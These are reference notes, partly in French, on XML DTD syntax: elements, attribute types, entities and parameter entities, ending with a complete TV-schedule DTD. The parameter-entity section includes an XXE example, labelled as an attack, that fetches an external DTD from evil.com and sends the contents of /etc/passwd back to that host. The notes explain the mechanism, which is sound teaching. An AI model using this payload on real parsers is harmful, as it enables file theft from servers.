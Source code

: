 # XML DTD

* Stands for **Document Type Definition**
* Defines the structure that the xml document should have
* Specifies the DTD inside the first node \(beside the description\), in a `<!DOCTYPE>` \(without a closing `/` \)
* You can write it directly inside the document `<!DOCTYPE root_name [...]`
* Or include an external file `<!DOCTYPE root_name SYSTEM "file">`

## Elément

```markup
<!ELEMENT element-name EMPTY>
<!ELEMENT element-name ANY>
<!ELEMENT element-name (#PCDATA)>
<!ELEMENT element-name (child1)>
<!ELEMENT element-name (child1, child2, ...)>
```

* `#PCDATA` \(_Parsed Character Data_\) signifie que ces données seront interprétées par le parser à l'inverse des `#CDATA` \(_Character Data_\)
* Les enfants doivent se retrouver dans le même ordre dans le document xml
* Tous les enfants spécifiés doivent être déclarés \(décrits\) dans le fichier DTD
* Certains symbole ajoute des restrictions :

```markup
<!ELEMENT note (message)> <!-- Uniquement 1 enfant nommé message -->
<!ELEMENT note (message+)> <!-- 1 ou plusieurs enfants nommés message -->
<!ELEMENT element-name (message*)> <!-- 0 ou plus enfants nommés message -->
<!ELEMENT element-name (message?)> <!-- 0 or 1 enfant nommé message -->
<!ELEMENT note (to,from,header,(message|body))> <!-- to, from header obligatoire, puis soit message soit body -->
```

## Attributs

```markup
<!ATTLIST element_name attribute_name attribute_type attribute_value>
```

| Type | Définition |
| :--- | :--- |
| CDATA | Character data |
| \(val1\|val2\|..\) | One from the enumerated list |
| \(val1\|val2\|..\) "val1" | One from the enumerated list, defaulting to the specified one |
| ID | Unique id |
| IDREF | Id of another element |
| IDREFS | List of other ids |
| NMTOKEN | Valid XML name |
| NMTOKENS | List of valid XML names |
| ENTITY | Entity |
| ENTITIES | List of entities |
| NOTATION | Name of a notation |
| xml: | Predefined xml value |

| Valeur | Définition |
| :--- | :--- |
| value | The default value of the attribute |
| \#REQUIRED | The attribute is required |
| \#IMPLIED | The attribute is optional |
| \#FIXED value | The attribute value is fixed |

## Entity

L'équivalent de variable, peuvent contenir une valeur donnée ou load le contenu d'un fichier \(local ou depuis un lien\). Ce second cas est ce qu'on appelle une entité externe.

```markup
<!DOCTYPE test [
    <!ENTITY entity_name1 "entity-value">
    <!ENTITY entity_name2 SYSTEM "URI/URL">
]>
<test>&entity_name1;</test>
```

### Parameter Entity

Elles permettent 2 choses :

* Etre référencées directement dans le DTD
* Référencer une autre entité dans leur valeur \(uniquement possible si elles sont en externe\)

L'exemple qui suit sert à une attaque mais montre bien l'idée :

```markup
<!-- test.xml-->
<?xml version="1.0" encoding="UTF-8 ?>
<!DOCTYPE test SYSTEM "http://evil.com/external.dtd">
<test>&send;</test>

<!-- external.dtd -->
    <!ENTITY % file_content SYSTEM "/etc/passwd">
    <!ENTITY % wrapper "<!ENTITY send 'http://evil.com/?%file_content;'>">
    %wrapper;
```

## Example Complet

```markup
<!DOCTYPE TVSCHEDULE [

<!ELEMENT TVSCHEDULE (CHANNEL+)>
<!ELEMENT CHANNEL (BANNER,DAY+)>
<!ELEMENT BANNER (#PCDATA)>
<!ELEMENT DAY (DATE,(HOLIDAY|PROGRAMSLOT+)+)>
<!ELEMENT HOLIDAY (#PCDATA)>
<!ELEMENT DATE (#PCDATA)>
<!ELEMENT PROGRAMSLOT (TIME,TITLE,DESCRIPTION?)>
<!ELEMENT TIME (#PCDATA)>
<!ELEMENT TITLE (#PCDATA)> 
<!ELEMENT DESCRIPTION (#PCDATA)>

<!ATTLIST TVSCHEDULE NAME CDATA #REQUIRED>
<!ATTLIST CHANNEL CHAN CDATA #REQUIRED>
<!ATTLIST PROGRAMSLOT VTR CDATA #IMPLIED>
<!ATTLIST TITLE RATING CDATA #IMPLIED>
<!ATTLIST TITLE LANGUAGE CDATA #IMPLIED>
]>
```


